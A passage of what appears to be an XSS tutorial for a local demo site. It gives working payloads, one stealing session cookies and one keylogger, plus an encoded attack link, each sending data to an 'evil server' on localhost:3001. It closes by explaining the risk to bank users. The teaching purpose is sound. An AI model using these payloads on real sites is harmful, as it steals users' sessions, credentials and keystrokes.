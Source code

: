 Check the terminal window of the evil server. Do you see the contents of the session cookie?

Fun times!

Here's the JavaScript code from the last example in a readable form:
```js
var img = document.createElement('img');
img.src = 'http://localhost:3001/cookie?data=' + document.cookie;
document.querySelector('body').appendChild(img);
```

Now let's get even more nasty. Let's try a key-logger:
```html
<img src="does-not-exist" onerror="var timeout; var buffer = \'\'; document.querySelector(\'body\').addEventListener(\'keypress\', function(event) { if (event.which !== 0) { clearTimeout(timeout); buffer += String.fromCharCode(event.which); timeout = setTimeout(function() { var xhr = new XMLHttpRequest(); var uri = \'http://localhost:3001/keys?data=\' + encodeURIComponent(buffer); xhr.open(\'GET\', uri); xhr.send(); buffer = \'\'; }, 400); } });">
```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20timeout%3B%20var%20buffer%20%3D%20%27%27%3B%20document.querySelector(%27body%27).addEventListener(%27keypress%27%2C%20function(event)%20%7B%20if%20(event.which%20!%3D%3D%200)%20%7B%20clearTimeout(timeout)%3B%20buffer%20%2B%3D%20String.fromCharCode(event.which)%3B%20timeout%20%3D%20setTimeout(function()%20%7B%20var%20xhr%20%3D%20new%20XMLHttpRequest()%3B%20var%20uri%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fkeys%3Fdata%3D%27%20%2B%20encodeURIComponent(buffer)%3B%20xhr.open(%27GET%27%2C%20uri)%3B%20xhr.send()%3B%20buffer%20%3D%20%27%27%3B%20%7D%2C%20400)%3B%20%7D%20%7D)%3B%22%3E).

Here's the JavaScript code from the last example in a readable form:
```js
var timeout;
var buffer = '';
document.querySelector('body').addEventListener('keypress', function(event) {
	if (event.which !== 0) {
		clearTimeout(timeout);
		buffer += String.fromCharCode(event.which);
		timeout = setTimeout(function() {
			var xhr = new XMLHttpRequest();
			var uri = 'http://localhost:3001/keys?data=' + encodeURIComponent(buffer);
			xhr.open('GET', uri);
			xhr.send();
			buffer = '';
		}, 400);
	}
});
```

These are very primitive examples, but I think you can see the potential.


## So Why is this Bad?

Imagine instead of localhost:3000, this was your bank's website. And you see a link in an official-looking email. What happens if you click that link? You might be running some malicious code in the context of your bank's website. Not such a big deal if you aren't logged in at that moment. But what if you are? Or what if you enter your login credentials on the page with the malicious code? Beginning to feel a bit paranoid? Good :)
